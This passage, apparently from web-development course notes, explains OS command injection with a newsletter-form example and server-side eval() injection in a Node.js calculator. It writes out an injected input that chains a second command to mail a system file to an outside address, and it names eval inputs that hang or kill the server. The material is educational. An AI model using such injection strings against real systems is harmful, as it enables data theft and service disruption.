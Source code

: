 ![OS command injection](../img/security-os-command-injection.png)

<sup>OS command injection.</sup>

:point_up: Here, we have a web portal that allows a user to sign up to a newsletter. The form looks simple enough: one `<input type="text">` element and a `<button>` to submit the form. On the server-side, a bash script takes a fixed confirmation string (stored in file `confirm`) and sends an email to the email address as stated in the user's input (_Thank you for signing up for our mailing list._). This setup of course assumes, that the user actually used an email address as input. Let's look at benign and malicious user input:

- The benign input `john@test.nl` leads to the following OS command: `cat confirm|mail john@test.nl`. This command line is indeed sufficient to send an email, as Linux has a command line [mail](https://linux.die.net/man/1/mail) tool.
- An example of malicious input is the following: `john@test.nl; cat /etc/password | mail john@test.nl`. If the input is not checked, the server-side command line will look as follows: `cat confirm | mail john@test.nl; cat /etc/password | mail john@test.nl`. Now, two emails are sent: the confirmation email and a mail sending the server's file `/etc/password` to `john@test.nl`. This is clearly _unintended code execution_.

The main issue here is the lack of **input validation**. It should not be assumed that any input is the desired/wanted input, this has to be validated.

Lets look at another instance of an injection attack. Imagine a calculator web application that allows a client to provide a formula, which is sent to the server, evaluated on the server inside a Node.js script, and the final result is sent back to the client. JavaScript offers an [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) function that takes a string representing JavaScript code and runs it, e.g. the string `100*4+2` can be evaluated with `eval('100*4+2')`, resulting in `402`. However, a malicious user can also try to input `while(1)` or [`process.exit()`](https://nodejs.org/api/process.html#process_process_exit_code); the former leads the Node.js event loop to be stuck forever in the while loop, while the latter instructs Node.js to terminate the running process.
